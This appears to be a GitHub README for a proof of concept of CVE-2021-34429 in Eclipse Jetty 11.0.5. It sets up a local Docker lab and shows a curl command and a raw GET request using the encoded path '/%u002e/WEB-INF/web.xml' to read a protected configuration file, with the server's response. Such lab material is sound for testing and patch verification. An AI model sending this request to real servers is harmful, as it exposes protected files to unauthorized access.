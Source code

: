 # CVE-2021-34429
POC for CVE-2021-34429 - Eclipse Jetty 11.0.5 Sensitive File Disclosure

## Using Encoded URIs to access files inside WEB-INF directory

#### Setting up the testing Environment

Prequistics: Installing docker and docker-compose on your system

For debain based distros ex. Ubuntu, Kali Linux etc. use the following commands

```
apt install docker.io
apt install docker-compose
```
For Windows,mac and other distros please refer the following guides:

- https://docs.docker.com/engine/install/
- https://docs.docker.com/compose/install/

### Installing Eclipse Jetty 11.0.5 

- Clone or download the repository
- run `docker-compose up -d`
- Your webserver should be up & running on `http://localhost:8080/`

![home](https://raw.githubusercontent.com/ColdFusionX/CVE-2021-34429/main/home.png)

## Vulnerablitiy Test

Make a GET request to `http://localhost:8080/%u002e/WEB-INF/web.xml`

- `curl -v 'localhost:8080/%u002e/WEB-INF/web.xml'`

### Request

```shell
GET /%u002e/WEB-INF/web.xml HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Response

```shell
HTTP/1.1 200 OK
Connection: close
Last-Modified: Wed, 03 Nov 2021 08:25:24 GMT
Content-Type: application/xml
Accept-Ranges: bytes
Content-Length: 209
Server: Jetty(11.0.5)

<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
<display-name>ColdFusionX - Web Application</display-name>
</web-app>
```

#### References:
- https://nvd.nist.gov/vuln/detail/CVE-2021-34429
- https://github.com/eclipse/jetty.project/security/advisories/GHSA-vjv5-gp2w-65vm

